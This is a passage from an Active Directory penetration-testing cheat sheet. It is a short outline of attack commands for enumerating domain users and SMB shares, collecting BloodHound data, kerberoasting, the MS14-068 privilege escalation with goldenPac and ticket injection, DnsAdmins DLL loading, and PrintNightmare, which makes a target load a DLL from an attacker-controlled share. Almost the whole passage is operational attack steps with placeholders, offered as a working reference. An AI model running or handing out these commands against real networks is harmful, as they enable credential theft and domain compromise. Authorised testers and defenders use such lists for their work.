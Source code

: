 ### Get all users

- GetADUsers.py -all -dc-ip <dc_ip> <domain>/<username>

### enumerate SMB share

- cme smb <ip> -u <user> -p <password> --shares

### bloodhound

- bloodhound-python -d <domain> -u <user> -p <password> -gc <dc> -c all

### powerview / pywerview

### kerberoasting

- Get hash

	- GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>
	- Rubeus kerberoast

- Get kerberoastable users

	- Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
	- MATCH (u:User {hasspn:true}) RETURN u
	- MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p

### MS14-068

- FindSMB2UPTime.py <ip>

	- rpcclient $> lookupnames <name>
wmic useraccount get name,sid
auxiliary/admin/kerberos/ms14_068_kerberos_checksum
	- goldenPac.py -dc-ip <dc_ip> <domain>/<user>:'<password>'@<target>

		- kerberos::ptc "<ticket>"

### dnscmd.exe /config /serverlevelplugindll <\\path\to\dll> # need a dnsadmin user

- sc \\DNSServer stop dns
sc \\DNSServer start dns

### PrintNightmare 

- CVE-2021-1675.py <domain>/<user>:<password>@<target> '\\<smb_server_ip>\<share>\inject.dll'

### enum dns 

- dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action query <dc_ip>

## Got valid username
